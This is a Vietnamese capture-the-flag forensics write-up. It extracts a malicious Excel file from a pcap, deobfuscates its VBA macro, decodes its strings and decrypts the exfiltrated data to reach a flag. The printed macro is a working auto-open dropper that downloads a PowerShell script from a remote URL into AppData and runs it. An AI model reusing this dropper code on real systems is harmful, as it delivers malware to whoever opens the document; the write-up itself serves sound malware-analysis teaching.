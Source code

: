 ![Screenshot (4452)](https://github.com/NVex0/uWU/assets/113530029/fb8ee111-d71e-48de-9d56-2cae5b023c32)

#### Solve:

Vẫn là Hoà và tài liệu độc hại của anh ấy. Đề cho ta 1 file pcap, dựa theo mô tả của đề thì có vẻ đây là capture của traffic khi thầy giáo nhận file độc từ Hoà. Mình sẽ extract tài liệu đó trên HTTP object list:

![Screenshot (4453)](https://github.com/NVex0/uWU/assets/113530029/20002710-b291-49fc-bccd-5a397f6e3ba2)

 `olevba` đầu tiên thôi :v: :

![image](https://github.com/NVex0/uWU/assets/113530029/34ed6a24-738b-486d-9a8d-bbb22ccb5964)

Ta thấy đoạn malicious code này bị obfuscate khá đau mắt, tuy nhiên để ý thì có vẻ như nó chỉ bị obfu bằng xài mấy tên biến non-ascii kì cục :v 

Sử dụng cyberchef, mình sửa chay từng biến 1 :D và nhìn ra mặt code:

```
Function func1(var17)
var12 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var16 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var17)
var4 = InStr(var12, Mid(var17, y, 1))
If var4 > 0 Then
var11 = Mid(var16, var4, 1)
var13 = var13 + var11
Else
var13 = var13 + Mid(var17, y, 1)
End If
Next
func1 = var13
For var26 = 1 To Len(var23)
var23 = var26
Next
For var30 = 2 To Len(var24)
var24 = 2
Next
For var33 = 3 To Len(var28)
var28 = var33
Next
For var18 = 4 To Len(var22)
var22 = 2
Next
End Function
Sub Workbook_Open()
Dim var31 As Object
Dim var21 As String
Dim var29 As String
Dim var19 As String
Dim var14 As Integer
var14 = Chr(50) + Chr(48) + Chr(48)
Set var31 = CreateObject("WScript.Shell")
var21 = var31.SpecialFolders("AppData")
Dim var9
Dim var6
Dim var3
Dim var26 As Long
Dim var30 As String
Dim var25 As Long
Dim var28 As String
Dim var33 As Long
Dim var18 As String
Dim var32 As String
Dim var24 As Long
Dim var10
Dim var15
Dim a0 As Integer
Dim var2
Dim var7
a0 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim var8 As String
var1 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var8 = func1(var1)
MsgBox var8, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var20 As Date
Dim var27 As Date
var20 = Date
var27 = DateSerial(2023, 6, 6)
If var20 < var27 Then
Set var2 = CreateObject("microsoft.xmlhttp")
Set var15 = CreateObject("Shell.Application")
var10 = var21 + func1("\k¿i6Ü_~Bb@")
var2.Open "get", func1("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
var2.send
var6 = var2.responseBody
If var2.Status = 200 Then
Set var9 = CreateObject("adodb.stream")
var9.Open
var9.Type = a0
var9.Write var6
var9.SaveToFile var10, a0 + a0
var9.Close
End If
var15.Open (var10)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

Đầu tiên với hàm `func1`, ta thấy nó nhận vào 1 chuỗi, trả về kí tự index thứ `var4` trên `var16`. `var4` là kết quả từ việc match xem kí tự lần đầu của chuỗi xuất hiện trong `var12` là ở đâu. Lặp liên tục trên len của chuỗi đầu vào, hàm trả về cho ta 1 string.

Func1 được gọi rất nhiều lần, mình viết code sau và decode từng đoạn gọi tới func1:

```
var2 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var3 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
v1 = input()

out = ""
for i in range(len(v1)):
    if v1[i] == ':':
        out += ':'
    elif v1[i] =='/':
        out += '/'
    for j in range(len(var2)):
        if var2[j] == v1[i]:
            out += var3[j]
print(out)
```
Lần lượt với chuỗi đầu vào func, ta được các output như sau:

`Opening document`

`We deeply regret to inform you`

`buncha.ps1`

`https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1`

`Dont try to run me bro`

Chung quy lại là code này thực thi việc tải xuống file ps1 kia và lưu vào Appdata. Vào đường dẫn mà file được tải xuống:

![image](https://github.com/NVex0/uWU/assets/113530029/d4462edb-e086-40ed-9fde-5a9b91215a16)

Vẫn là base64 và deflate compress :v, ta làm tương tự như đoạn đầu thôi, và được 1 obfuscated code khác. Mình sử dụng `PowerDecode` để deobfuscate. 

Đoạn code sau khi deob nhìn khá rõ ràng. Cụ thể code này sử dụng AES-CBC Zero Padding với key có sẵn trong code. IV lấy 16 bytes nối với data sau khi encrypt. 
Sau đó là tạo stream để POST data lên kết nối được thiết lập trước. 

Vậy nên với file pcap của đề, mình sẽ tiến hành decrypt data mà Hoà lấy được từ máy thầy. Đầu tiên mình sort theo HTTP POST:

![image](https://github.com/NVex0/uWU/assets/113530029/027fd81a-9998-42ca-8b0e-884402d47b91)

Sau đó decrypt data bên client gửi bằng cách cắt đi 16 bytes đầu làm IV, key trong code và phần còn lại là encrypted data. Ta bắt đầu với stream nhiều data nhất trước:

Phần data ta phải xử lý qua bằng URL decode trước. Sau đó mình decrypt với Cyberchef:

![image](https://github.com/NVex0/uWU/assets/113530029/d604601b-c12e-4fa8-b734-0e33181b8bc2)

Để ý thì kia là header của PNG, decode và save về, ta được 1 bức QR:

![image](https://github.com/NVex0/uWU/assets/113530029/0449648b-a836-47b3-93db-c23d9185768a)

Scan và ta được Flag:

Flag: `CHH{D0n't_w0rRy_n0_st@r_wh3rE}`
